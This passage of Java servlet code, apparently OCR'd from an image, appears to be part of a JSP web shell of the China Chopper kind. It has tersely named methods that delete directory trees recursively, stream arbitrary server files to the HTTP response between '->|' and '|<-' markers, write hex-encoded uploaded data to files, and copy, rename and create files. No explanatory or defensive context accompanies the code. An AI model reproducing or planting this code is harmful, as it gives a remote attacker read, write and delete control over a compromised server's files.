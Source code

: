 ```
                if (!x[k].delete()) {
                    EE(x[k].getPath());
                }
            }
        }
        f.delete();
    }
    void FF(String s, HttpServletResponse r) throws Exception {
        int n;
        byte[] b = new byte[512];
        r.reset();
        ServletOutputStream os = r.getOutputStream();
        BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));
        os.write(("->" + "|").getBytes(), 0, 3);
        while ((n = is.read(b, 0, 512)) != -1) {
            os.write(b, 0, n);
        }
        os.write(("|" + "<-").getBytes(), 0, 3);
        os.close();
        is.close();
    }
    void GG(String s, String d) throws Exception {
        String h = "0123456789ABCDEF";
        int n;
        File f = new File(s);
        f.createNewFile();
        FileOutputStream os = new FileOutputStream(f);
        for (int i = 0; i < d.length(); i += 2) {
            os
                    .write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d
                            .charAt(i + 1))));
        }
        os.close();
    }
    void HH(String s, String d) throws Exception {
        File sf = new File(s), df = new File(d);
        if (sf.isDirectory()) {
            if (!df.exists()) {
                df.mkdir();
            }
            File z[] = sf.listFiles();
            for (int j = 0; j < z.length; j++) {
                HH(s + "/" + z[j].getName(), d + "/" + z[j].getName());
            }
        } else {
            FileInputStream is = new FileInputStream(sf);
            FileOutputStream os = new FileOutputStream(df);
            int n;
            byte[] b = new byte[512];
            while ((n = is.read(b, 0, 512)) != -1) {
                os.write(b, 0, n);
            }
            is.close();
            os.close();
        }
    }
    void II(String s, String d) throws Exception {
        File sf = new File(s), df = new File(d);
        sf.renameTo(df);
    }
    void JJ(String s) throws Exception {
        File f = new File(s);
        f.mkdir();
```